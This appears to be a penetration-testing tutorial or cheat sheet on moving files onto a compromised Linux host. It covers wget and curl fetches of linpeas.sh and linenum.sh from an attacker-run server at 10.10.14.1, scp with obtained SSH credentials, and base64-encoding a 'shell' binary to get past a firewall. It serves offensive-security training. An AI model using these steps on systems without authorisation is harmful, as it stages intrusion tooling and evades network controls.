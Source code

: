 | Commads                                                | Usage                                                                 |
| ------------------------------------------------------ | --------------------------------------------------------------------- |
| `python3 -m http.server 8000`                          | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                    | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                         | Check the file's `md5sum` to ensure it converted correctly            |
## Using wget
First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
```shell
cd /tmp

python3 -m http.server 8000
```
Then:
```shell
wget http://10.10.14.1:8000/linenum.sh
```
If the remote server doesn't have wget, we can download it:
```shell
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

#### Using SCP
Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
```shell
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
#### Using Base64
Some times, we could face a firewall that blocks us from downloading files from it, so we need to find another way. We can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.
```shell
base64 shell -w 0
#Output
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
So we paste the output and use the `-d` to decode it, and pass it to the file named `shell`:
```shell
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

#### Validating File Transfers
To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:
```shell
file shell

#Output
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:
```shell
md5sum shell

# Output
321de1d7e7c3735838890a72c9ae7d1d shell
```
Now, we can go to the remote server and run the same command on the file we transferred:
```shell
md5sum shell

#Output
321de1d7e7c3735838890a72c9ae7d1d shell
```
As we can see, both files have the same md5 hash, meaning the file was transferred correctly.

